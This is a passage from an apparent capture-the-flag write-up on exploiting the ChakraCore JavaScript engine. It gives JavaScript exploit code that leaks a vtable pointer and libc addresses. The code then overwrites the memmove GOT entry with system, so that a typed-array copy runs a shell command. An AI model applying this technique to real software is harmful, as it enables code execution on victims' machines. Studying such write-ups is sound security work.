 The `vtable` pointer points to an address inside libChakraCore.so.
That is we can compute the base address of the library leaking the vtable pointer and reading from that address.

One common technique to gain code execution from arbitrary write is to write the address of `system` or `one_gadget` into a got entry of the binary

From the base address of libChakraCore.so we can compute the address of the got section and from there we can leak the base address of libc

Since the got of libChakraCore.so is writable I tried with various offsets, but without success.

So after a couple of failed tries, I searched for how to trigger calls to standard library from a javascript context and found this writeup

[https://bruce30262.github.io/Chakrazy-exploiting-type-confusion-bug-in-ChakraCore/](https://bruce30262.github.io/Chakrazy-exploiting-type-confusion-bug-in-ChakraCore/)

Looked for `got` in the writeup and found that you can trigger `memmove` with `some_array.set(other_array)`

The nice thing of `memmove` is that the first argument is a string and is the destination buffer of the memory move, so we can control the first argument of system
So I overwrote the corresponding entry in got with the address of system.

```javascript
    // compute some useful offsets, just try them all until it works    
    let gdb_base = 0xc3a52000; // libChakraCore.so base addr in gdb
    
    let vptr_off = 0xc48566e0 - gdb_base;
    let chackra_base_lo = vtable_lo - vptr_off;
    
    let malloc_got = 0xc48a56e0 - gdb_base;
    // write targets
    let free_got = 0xc48a5128 - gdb_base
    let memmove = free_got - 0x128 + 0x108
    let memset = free_got - 0x128 + 0x248
        
    let one_gadget = 0x4f440; // actually it's system because the one gadgets that I tried didn't work
    
    print(hex(chackra_base_lo + vtable_hi * BASE));
    print('malloc and free')
    // get libc offsets to find libc version
    print(hex(read64(chackra_base_lo + malloc_got, vtable_hi)));
    print(hex(read64(chackra_base_lo + free_got, vtable_hi)));

    // read got to get libc base addr
    let libc = read3232(chackra_base_lo + free_got, vtable_hi);
    let free_off = 0x8dbce950 - 0x8db37000 // lost the gdb session so new base addr
    let libc_low = libc[0] - free_off;
    let libc_high = libc[1];
    print(hex(libc_low + libc_high * BASE))
    print('Writing on got');

    write64(chackra_base_lo + memmove, vtable_hi, libc_low + one_gadget, libc_high);
    // write64(chackra_base_lo + memset, vtable_hi, libc_low + one_gadget, libc_high);
    print('there');

    // just a random size and name, you can put different values if you want
    let ab = new Uint8Array(0x1020);
    let ef = new Uint8Array(0x1020);
    let cmd = 'cat flag'
    for (let i = 0; i < 1000; i++) {
        ab[i] = 100 - i;
        ef[i] = cmd.charCodeAt(i);
    }
```